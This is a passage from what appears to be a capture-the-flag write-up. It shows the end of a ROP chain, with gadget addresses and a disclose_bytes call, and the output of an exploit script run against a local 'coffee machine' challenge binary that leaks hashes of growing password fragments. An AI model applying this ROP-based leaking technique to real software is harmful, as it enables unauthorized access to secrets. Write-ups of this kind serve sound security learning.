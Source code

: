 >0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x001f
>0x8097300
>```

As we can see the ROP chain does some initialization and subsequently discloses hashes of increasingly large fragments of the password. We can run the [repurposed exploit](solution/coffee_exploit.py) against our own instance of the binary:

>```bash
>$ ./coffee_exploit.py | ./coffee_machine
>0xC0FF33 Inc. EX-3825
>
>** DEBUG CONSOLE ***
>[1] Test brew
>[2] Show system status
>[3] Verify serial integrity
>[4] Dispense tea
>[5] Quit
>
>Your choice: [?] Number of trust bytes?
>[i] Okay, 5 bytes coming up
>38fd30d7441a1bd1490a2ba91f0e4a73495640d7
>[i] Okay, 7 bytes coming up
>7b4ceb50c1bb181033dc4dd0080b1ddc98b46f29
>[i] Okay, 9 bytes coming up
>10e876743865f61bd215b1195586c0d2365e99cb
>[i] Okay, 11 bytes coming up
>218acbbd133e9281ec3aa9de26809e05e6d2728a
>[i] Okay, 13 bytes coming up
>aea2f9955dd4b19aea581754dfa6fe19c015be11
>[i] Okay, 15 bytes coming up
>e1ae7f909d5501637ae69c60ed38012f39803ee1
>[i] Okay, 17 bytes coming up
>e66e6ba0a9d96901e3e6c172ad778736c54ed1f5
>[i] Okay, 19 bytes coming up
>718f8de4312fb8e3806ae1529b47c79e19d70ff7
>[i] Okay, 21 bytes coming up
>c3309fe81c9f2a0a9e7d3ece6ecb617fd6fa4b15
>[i] Okay, 23 bytes coming up
>18a943d2a326ee21228d25ef0e565060a2ec10be
>[i] Okay, 25 bytes coming up
>e8a677fa3b96a9eb895a62cbc2648cd26a87d10c
>[i] Okay, 27 bytes coming up
>4138195a180f1c9923c4585f91ad12df90a10930
>[i] Okay, 29 bytes coming up
>26c3bd12a6cc2b53e7cc46b88fd4b4ba16d5e667
>[i] Okay, 31 bytes coming up
>998b5465fb296c6ece2afe86fc160292a4e7bf32
>```
